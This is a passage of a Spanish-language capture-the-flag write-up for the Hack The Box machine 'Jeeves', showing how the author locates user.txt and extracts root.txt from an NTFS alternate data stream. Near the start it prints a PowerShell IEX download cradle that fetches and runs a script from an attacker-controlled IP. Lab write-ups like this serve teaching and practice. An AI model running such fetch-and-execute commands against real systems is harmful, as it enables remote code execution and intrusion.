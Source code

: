 ```powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6/IPS.ps1')```
* ```Get-ChildItem -Path C:\ -Recurse -Include user.txt | select FullName```

![](/images/HTB/Jeeves/65-user.txt-full.png)

Leyendo la flag user.txt

* ```type C:\Users\kohsuke\Desktop\user.txt```

![](/images/HTB/Jeeves/70-read-user.txt.png)

## root.txt

Para esta flag la cosa se complica un poco, ya que no la encontraremos por métodos convencionales. Al buscar por todos los archivos con extensión ```.txt``` dentro del home del usuario **Administrator** encontraremos un archivo interesante.

![](/images/HTB/Jeeves/71-admin-txt-files.png)

Al leer ```hm.txt``` veremos lo siguiente.

> The flag is elsewhere. Look deeper.

![](/images/HTB/Jeeves/72-root-hint.png)

Después de muchos intentos y buscar información con el confiable **Google** llegamos a un [artículo](https://davidhamann.de/2019/02/23/hidden-in-plain-sight-alternate-data-streams/) que explica como esconder información en un archivo utilizando ***ADS - Alternate Data Streams***. También explica como extraer información de estos streams.

1. Utilizando ```Get-Item``` buscaremos todos los streams de manera recursiva en la ruta ```C:\Users\Administrator\Desktop```.
    * ```Get-Item C:\Users\Administrator\Desktop\*.txt -stream *```
2. Obtendremos el contenido con ```Get-Content``` especificando el nombre del stream que queremos leer.
   * ```Get-Content hm.txt -stream root.txt```

![](/images/HTB/Jeeves/75-read-root.txt.png)

Como se ve en la imagen, el archivo ```hm.txt``` contenía un stream llamado ```root.txt``` con el hash de la flag en su interior.